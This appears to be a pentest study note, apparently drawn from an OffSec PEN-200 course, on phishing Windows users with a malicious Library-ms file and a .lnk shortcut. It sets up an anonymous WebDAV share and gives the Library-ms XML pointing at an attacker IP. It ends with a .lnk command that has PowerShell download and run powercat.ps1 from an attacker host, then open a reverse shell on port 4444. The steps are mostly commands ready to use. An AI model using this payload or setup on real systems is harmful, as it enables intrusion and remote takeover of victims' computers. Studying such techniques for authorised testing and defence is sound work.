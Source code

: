 # Library-ms & lnk

### Webdav

```bash
kali@kali:~$ pip3 install wsgidav
```

_<mark style="color:red;">Once WsgiDAV is installed, we'll create the</mark> <mark style="color:red;"></mark><mark style="color:red;">**/home/kali/webdav**</mark> <mark style="color:red;"></mark><mark style="color:red;">directory to use as the WebDAV share that will contain our</mark> <mark style="color:red;"></mark><mark style="color:red;">**.lnk**</mark> <mark style="color:red;"></mark><mark style="color:red;">file. For now, let's place a</mark> <mark style="color:red;"></mark><mark style="color:red;">**test.txt**</mark> <mark style="color:red;"></mark><mark style="color:red;">file in this directory.</mark>_

_<mark style="color:red;">If the installation of WsgiDAV fails with</mark> <mark style="color:red;"></mark><mark style="color:red;">**error: externally-managed-environment**</mark><mark style="color:red;">, we can use a virtual environment</mark>_[_<mark style="color:red;">3</mark>_](https://portal.offsec.com/courses/pen-200-44065/learning/client-side-attacks-48976/abusing-windows-library-files-49009/obtaining-code-execution-via-windows-library-files-48979#fn-local\_id\_165-3) _<mark style="color:red;">or install the package python3-wsgidav with apt. In PEP 668,</mark>_[_<mark style="color:red;">4</mark>_](https://portal.offsec.com/courses/pen-200-44065/learning/client-side-attacks-48976/abusing-windows-library-files-49009/obtaining-code-execution-via-windows-library-files-48979#fn-local\_id\_165-4) _<mark style="color:red;">a change was introduced to enforce the use of virtual environments and prevent situations in which package installations via pip break the operating system.</mark>_



```bash
kali@kali:~$ mkdir /home/kali/webdav

kali@kali:~$ touch /home/kali/webdav/test.txt

kali@kali:~$ /home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```



### **config.Library-ms**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

For change image icon u could change `<iconReference>imageres.dll,-1003</iconReference>`



### Create .lnk

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
powercat -c 192.168.119.3 -p 4444 -e powershell"
```
